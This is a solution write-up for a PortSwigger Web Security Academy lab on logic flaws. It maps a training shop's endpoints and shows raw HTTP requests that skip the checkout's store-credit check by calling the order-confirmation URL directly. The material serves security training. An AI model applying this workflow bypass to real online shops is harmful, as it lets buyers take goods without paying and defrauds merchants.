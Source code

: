 # [Lab 7: Insufficient workflow validation](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-insufficient-workflow-validation)

---

## Description

This lab makes flawed assumptions about the sequence of events in the purchasing workflow. To solve the lab, exploit this flaw to buy a "Lightweight l33t leather jacket".

You can log in to your own account using the following credentials: `wiener:peter`

---

## Solution

### Site Map

- `/`
	- Home page with links to products
- `/product?productId=$PRODUCT_ID`
	- Product page
- `/cart`
	- `GET`: Retrieve the current user's cart
		- Backend controls access via the `session` cookie
	- `POST`: Add item to cart
		- Backend uses `session` cookie to tie item to user's cart
		- When the user logs out, their cart is lost forever, even if they log back in. This seems to indicate that the application either:
			1. Ties a user's cart to the `session` cookie directly and whenever they log out, remove all items associated with that `session` cookie or
			2. Ties a user's cart to the `username` and whenever the user logs out, looks up the username associated with the `session` cookie and removes all items associated with that username
- `/cart/checkout`
	- `POST`: Place order
		- Backend uses `session` cookie to look up user's store credit to determine if they have sufficient funds
		- If they have sufficient funds, redirect to `/cart/order-confirmation?order-confirmed=true`
- `/cart/order-confirmation?order-confirmed=true`
	- Access controlled via `session` token
	- Appears to complete the transaction?
- `/login`
	- `GET`: Login form
	- `POST`: Submit credentials for authentication
- `/logout`
	- Invalidates the user's `session` cookie and redirects them to `/`
- `/my-account?id=$USERNAME`
	- Current user account page
	- Access controlled by `session` cookie


### Shopping Workflow

Login:

```http
POST /login HTTP/1.1
Host: ac221fbb1f50c494801d061d0012008d.web-security-academy.net
Cookie: session=d9Fo9zwENRyGI5iz8nmVoQrWKVh7DUca
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Origin: https://ac221fbb1f50c494801d061d0012008d.web-security-academy.net
Dnt: 1
Referer: https://ac221fbb1f50c494801d061d0012008d.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

csrf=s88goq8pMOVz3DSJ2MyHJWLAq1P6BvMA&username=wiener&password=peter
```

Add item to cart:

```http
POST /cart HTTP/1.1
Host: ac221fbb1f50c494801d061d0012008d.web-security-academy.net
Cookie: session=wuk6CNR13Fg6SFwMngWX5iIxtJiPTUb9
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: https://ac221fbb1f50c494801d061d0012008d.web-security-academy.net
Dnt: 1
Referer: https://ac221fbb1f50c494801d061d0012008d.web-security-academy.net/product?productId=1
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

productId=1&redir=PRODUCT&quantity=1
```

Results in a 302 redirect to `/product?productId=$PRODUCT_ID`.

Request for current user's cart:

```http
GET /cart HTTP/1.1
Host: ac221fbb1f50c494801d061d0012008d.web-security-academy.net
Cookie: session=wuk6CNR13Fg6SFwMngWX5iIxtJiPTUb9
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Dnt: 1
Referer: https://ac221fbb1f50c494801d061d0012008d.web-security-academy.net/product?productId=1
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close
```

Request to place order:

```http
POST /cart/checkout HTTP/1.1
Host: ac221fbb1f50c494801d061d0012008d.web-security-academy.net
Cookie: session=wuk6CNR13Fg6SFwMngWX5iIxtJiPTUb9
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: https://ac221fbb1f50c494801d061d0012008d.web-security-academy.net
Dnt: 1
Referer: https://ac221fbb1f50c494801d061d0012008d.web-security-academy.net/cart
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

csrf=AJEPlibjJQBhIiTiQtEfnNxPQzBXV5OR
```

When not logged in, attempting to place an order results in a 303 redirect to `/cart?err=NOT_LOGGED_IN`.

![](images/Pasted%20image%2020210828215500.png)

Without sufficient funds, attempting to place an order results in a 303 redirect to `/cart?err=INSUFFICIENT_FUNDS`.

![](images/Pasted%20image%2020210828215754.png)

With sufficient funds, successfully placing an order results in a 302 redirect to `/cart/order-confirmation?order-confirmed=true`:

```http
GET /cart/order-confirmation?order-confirmed=true HTTP/1.1
Host: ac221fbb1f50c494801d061d0012008d.web-security-academy.net
Cookie: session=IUNp5Ah7lweJ520A0kiT4KwuA3Qn0oO9
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://ac221fbb1f50c494801d061d0012008d.web-security-academy.net/cart
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close
```

![](images/Pasted%20image%2020210828222803.png)


It appears that the `POST` to `/cart/checkout` is just responsible for ensuring the user has sufficient store credit and that this request is responsible for completing the transaction. Is it possible to bypass the store credit check and purchase a l33t leather jacket by adding it to the cart and them sending this request with the same `session` cookie?

Add the jacket to the cart:

```http
POST /cart HTTP/1.1
Host: ac221fbb1f50c494801d061d0012008d.web-security-academy.net
Cookie: session=IUNp5Ah7lweJ520A0kiT4KwuA3Qn0oO9
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: https://ac221fbb1f50c494801d061d0012008d.web-security-academy.net
Dnt: 1
Referer: https://ac221fbb1f50c494801d061d0012008d.web-security-academy.net/product?productId=1
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

productId=1&redir=PRODUCT&quantity=1
```

Complete the transaction:

```http
GET /cart/order-confirmation?order-confirmed=true HTTP/1.1
Host: ac221fbb1f50c494801d061d0012008d.web-security-academy.net
Cookie: session=IUNp5Ah7lweJ520A0kiT4KwuA3Qn0oO9
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://ac221fbb1f50c494801d061d0012008d.web-security-academy.net/cart
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close
```

![](images/Pasted%20image%2020210828223914.png)
